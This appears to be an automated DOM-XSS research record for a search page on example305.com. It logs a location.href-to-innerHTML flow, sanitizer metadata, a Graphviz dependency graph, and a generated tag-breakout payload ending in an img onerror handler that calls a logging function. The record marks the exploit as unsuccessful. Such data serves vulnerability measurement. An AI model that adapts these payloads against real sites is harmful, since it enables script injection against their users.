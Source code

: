 // Finding: d7745e9a-fe66-400a-a0c7-142909a202f1
// Finding.url: https://www.example305.com/search/fullsite-search.html?query=aS</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('3098355806ec444a92c1bdb860f4547f')><!--/*tm&resStart=0&resLength=10&toplevel=products-and-services&sublevel=training-courses&
// Finding.parentloc: https://www.example305.com/search/fullsite-search.html?query=aS</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('3098355806ec444a92c1bdb860f4547f')><!--/*tm&resStart=0&resLength=10&toplevel=products-and-services&sublevel=training-courses&
// Finding.domain: www.example305.com
// Finding.base_domain: example305.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 4
// Sanitizer.name: search
// Sanitizer.location: https://www.example305.com/search/js/fullsite-search-lite.js?v7n - search:527:32
// Finding.begin: 79
// Finding.end: 82
// Finding.original_uuid: b62cdb8a-8216-4311-9065-7decd58f9e55
// Finding.TwentyFiveMillionFlowsId: -213108047
// Finding.script: https://www.example305.com/js/addtl-new.js
// Finding.line: 12
// Exploit.uuid: 30983558-06ec-444a-92c1-bdb860f4547f
// Exploit.success: false
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: text
// Exploit.content: S
// Exploit.quote_type: None
// Exploit.tag: None
// Exploit.break_out: S</iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: S</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 56
// Exploit.end_taint_url: 57
// Exploit.replace_begin_url: 56
// Exploit.replace_end_url: 57
// Exploit.replace_begin_param: 475
// Exploit.replace_end_param: 476
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: true
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: 657197542
// DepGraph.sanitizer_hash: 1441404662
// Removed LR concats 
digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="str_replace_once"];
n2 [shape=box, label="RegExp: /\#.+$/"];
n3 [shape=box, label="Lit: "];
n4 [shape=box, label="Var: x"];
n5 [shape=ellipse, label="substr"];
n6 [shape=box, label="Var: x"];
n7 [shape=box, label="Lit: 49"];
n8 [shape=box, label="Lit: 219"];
n9 [shape=ellipse, label="split"];
n10 [shape=box, label="Lit: &"];
n11 [shape=box, label="Var: x"];
n12 [shape=ellipse, label="split"];
n13 [shape=box, label="Lit: ="];
n14 [shape=box, label="Var: x"];
n15 [shape=ellipse, label="str_replace_once"];
n16 [shape=box, label="RegExp: /%97/"];
n17 [shape=box, label="Lit:  "];
n18 [shape=box, label="Var: x"];
n19 [shape=ellipse, label="decodeURIComponent"];
n20 [shape=box, label="Var: x"];
n21 [shape=ellipse, label="preg_replace"];
n22 [shape=box, label="RegExp: /[\u2018\u2019]/"];
n23 [shape=box, label="Lit: '"];
n24 [shape=box, label="Var: x"];
n25 [shape=ellipse, label="preg_replace"];
n26 [shape=box, label="RegExp: /[\u201C\u201D]/"];
n27 [shape=box, label="Lit: \""];
n28 [shape=box, label="Var: x"];
n29 [shape=ellipse, label="preg_replace"];
n30 [shape=box, label="RegExp: /\&/"];
n31 [shape=box, label="Lit: and"];
n32 [shape=box, label="Var: x"];
n33 [shape=ellipse, label="preg_replace"];
n34 [shape=box, label="RegExp: /^[\s\.\-]+/"];
n35 [shape=box, label="Lit: "];
n36 [shape=box, label="Var: x"];
n37 [shape=ellipse, label="preg_replace"];
n38 [shape=box, label="RegExp: /\s+/"];
n39 [shape=box, label="Lit:  "];
n40 [shape=box, label="Var: x"];
n41 [shape=ellipse, label="str_replace_once"];
n42 [shape=box, label="RegExp: /^([a-zA-Z])[ \-]+(\d+)/"];
n43 [shape=box, label="Lit: $1$2"];
n44 [shape=box, label="Var: x"];
n45 [shape=ellipse, label="str_replace_once"];
n46 [shape=box, label="RegExp: /^(stp)[ \-]+(\d+)/"];
n47 [shape=box, label="Lit: $1$2"];
n48 [shape=box, label="Var: x"];
n49 [shape=ellipse, label="str_replace_once"];
n50 [shape=box, label="RegExp: /^(uop)[ ]+(\d+)/"];
n51 [shape=box, label="Lit: $1$2"];
n52 [shape=box, label="Var: x"];
n53 [shape=ellipse, label="str_replace_once"];
n54 [shape=box, label="RegExp: /^\w\*/"];
n55 [shape=box, label="Lit: "];
n56 [shape=box, label="Var: x"];
n57 [shape=ellipse, label="str_replace_once"];
n58 [shape=box, label="RegExp: / \w\*/"];
n59 [shape=box, label="Lit: "];
n60 [shape=box, label="Var: x"];
n61 [shape=box, label="Var: x"];
n62 [shape=doubleoctagon, label="Return: x"];
n4 -> n0;
n1 -> n2;
n1 -> n3;
n1 -> n4;
n6 -> n1;
n5 -> n6;
n5 -> n7;
n5 -> n8;
n11 -> n5;
n9 -> n10;
n9 -> n11;
n14 -> n9;
n12 -> n13;
n12 -> n14;
n18 -> n12;
n15 -> n16;
n15 -> n17;
n15 -> n18;
n20 -> n15;
n19 -> n20;
n24 -> n19;
n21 -> n22;
n21 -> n23;
n21 -> n24;
n28 -> n21;
n25 -> n26;
n25 -> n27;
n25 -> n28;
n32 -> n25;
n29 -> n30;
n29 -> n31;
n29 -> n32;
n36 -> n29;
n33 -> n34;
n33 -> n35;
n33 -> n36;
n40 -> n33;
n37 -> n38;
n37 -> n39;
n37 -> n40;
n44 -> n37;
n41 -> n42;
n41 -> n43;
n41 -> n44;
n48 -> n41;
n45 -> n46;
n45 -> n47;
n45 -> n48;
n52 -> n45;
n49 -> n50;
n49 -> n51;
n49 -> n52;
n56 -> n49;
n53 -> n54;
n53 -> n55;
n53 -> n56;
n60 -> n53;
n57 -> n58;
n57 -> n59;
n57 -> n60;
n61 -> n57;
n62 -> n61;
}